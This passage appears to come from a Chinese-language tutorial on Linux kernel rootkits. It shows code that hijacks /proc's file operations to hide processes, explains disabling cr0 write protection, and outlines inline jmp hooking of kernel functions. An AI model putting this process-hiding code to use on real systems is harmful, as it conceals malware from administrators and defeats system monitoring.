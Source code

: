```
   printk("Hidden process is [tgid:%d][pid:%d]:%s\n",ctx->pos,iter.task->pid,iter.task->comm);
   continue;    
  }
```
`VFS`层的劫持主要还是针对的`文件操作集`，因此首先就得先找到要劫持的操作的`函数地址`和`函数指针`，然后替换调`函数指针`指向的地址。

对于外界来说，看起来还像是在用`proc_root_readdir()`函数，但是实际上使用的是可以控制的`hack_proc_root_readdir()`函数，这点可以通过替换指针很容易做到。
```
int __init hack_kernel(void){
  printk("Kernel VFS hacked!!");
  struct file *getfile;
  struct file_operations *getfile_op;

  getfile = filp_open("/proc",O_RDONLY,0);
  if(IS_ERR(getfile)){
    printk("open proc error\n");
    return -1;
  }

  origin_proc_root = getfile->f_op->iterate_shared;
  getfile_op = getfile->f_op;
  set_addr_rw();
  getfile_op->iterate_shared = hack_proc_root_readdir;
  set_addr_ro();
  filp_close(getfile,0);

  return 0;
}
```
> 其中涉及到`内存读写保护`的问题，可以通过控制`cr0`寄存器来解决。也就是针对`cr0`寄存器的第`16`位置`0/1`操作

已经劫持了指定的`文件操作`，那就是要重写相应的`操作函数`，倘若内核开启了`CONFIG_KALLSYMS`就可以通过调用`kallsyms_lookup_name`来快速重写函数，如果没有开启的话，则只能自己重新实现该函数了，那工程量其实比较大。
> 针对VFS的劫持还有`proc_root_lookup`的劫持，这个和`proc_root_readdir`是相同的操作，因此不做过多赘述。

## ring0 Inline hook

### `Jmp`修改劫持内核函数，修改返回信息
> 下面一段信息参照[Linux内核如何替换内核函数并调用原始函数](https://blog.csdn.net/dog250/article/details/84201114)

现在的计算机基本都是`冯诺依曼式的统一存储式计算机`，即指令与数据存在一起，那就代表可以在操作系统层面任意解释内存空间的含义。
1. 将函数地址对应的物理内存映射成可写
2. 用`jmp`指令替换函数
3. 解除可写映射

> 借用一下这张图，虽然我并非完全按照这张图实现的，但是画得确实不错。
